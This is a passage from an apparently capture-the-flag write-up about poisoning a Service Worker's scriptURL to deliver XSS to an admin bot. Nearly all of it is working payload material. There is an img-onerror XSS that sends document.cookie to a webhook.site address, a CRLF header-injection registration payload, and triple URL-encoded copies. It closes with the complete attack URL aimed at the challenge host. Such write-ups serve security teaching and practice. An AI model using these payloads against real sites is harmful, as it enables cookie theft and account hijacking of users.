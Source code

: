 Let's go!! Now it's confirmed that we can poison the Service Worker's `scriptURL` property, and deliver our XSS payload to the bot!

**Let's modify the XSS payload to retrieve the flag from the admin bot's cookie!**
```json
{"token":"<img src=errorpls onerror=location.href='//webhook.site/26e56a2a-016e-454e-87f6-4080f4c6f444?flag='.concat(document.cookie)>"}
```

```shell
>>> xssPayload = '''{"token":"<img src=errorpls onerror=location.href='//webhook.site/26e56a2a-016e-454e-87f6-4080f4c6f444?flag='.concat(document.cookie)>"}'''
>>> len(xssPayload)
136
```

**Registration XSS payload:**
```
overwriteUserid: foobar\r\n
Content-Length: 136\r\n
\r\n
{"token":"<img src=errorpls onerror=location.href='//webhook.site/26e56a2a-016e-454e-87f6-4080f4c6f444?flag='.concat(document.cookie)>"}
```

**Triple URL encoded registration XSS payload:**
```
overwriteUserid%25253a%252520foobar%25250d%25250aContent-Length%25253a%252520136%25250d%25250a%25250d%25250a%25257b%252522token%252522%25253a%252522%25253cimg%252520src%25253derrorpls%252520onerror%25253dlocation.href%25253d'%25252f%25252fwebhook.site%25252f26e56a2a-016e-454e-87f6-4080f4c6f444%25253fflag%25253d'.concat(document.cookie)%25253e%252522%25257d
```

**Send the triple URL encoded registration XSS payload to the bot:**
```
https://escape.nzeros.me/?user=overwriteUserid%25253a%252520foobar%25250d%25250aContent-Length%25253a%252520136%25250d%25250a%25250d%25250a%25257b%252522token%252522%25253a%252522%25253cimg%252520src%25253derrorpls%252520onerror%25253dlocation.href%25253d'%25252f%25252fwebhook.site%25252f26e56a2a-016e-454e-87f6-4080f4c6f444%25253fflag%25253d'.concat(document.cookie)%25253e%252522%25257d
```
